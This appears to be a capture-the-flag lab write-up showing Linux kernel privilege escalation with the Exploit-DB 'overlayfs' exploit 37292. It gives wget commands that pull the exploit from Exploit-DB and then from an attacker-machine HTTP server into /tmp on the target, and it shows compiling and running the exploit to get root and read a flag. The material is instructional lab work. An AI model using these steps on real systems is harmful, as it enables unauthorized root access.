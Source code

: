 # Kernel Exploits

First ssh login to target machine

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Since we already know this is a kernel priviledge escaltion, let's see what kernel version is running on our target machine with `uname -a`.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Now that we have the kernel version lets search in some well know exploits databases, like [https://www.exploit-db.com/](https://www.exploit-db.com/)

Searching for 3.13.0 we have the following results

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

For this lab I manage to get working with the [Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)&#x20;

When we open this exploit, we can see the details and the some instructions about this exploit:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

In order to make this work we have to download the raw content to the attack machine and then pass it to the vulnerable machine.

Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

Then we rename the file to ofs.c, and we start a HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

Now, in order to use `wget` on the vulnerable machine we must choose the `/tmp` directory, otherswise we will get the "Permission denied" message.

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

Now we simply move to the /tmp directory and follow the same instructions presented in the exploit. We compile the file and then we run it:

```bash
gcc ofs.c -o ofs
./ofs
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

As we can see, the second time we run the `id` command we see ourselves as 'root'. We can also type the `whoami` command and get similar information.\


<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Now, for the flag we have to navigate to the /home/matt and we can use `cat` to see the content of the file. If we tried to use `cat flag1.txt` before the exploit, we'd get a "Permission denied" message.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

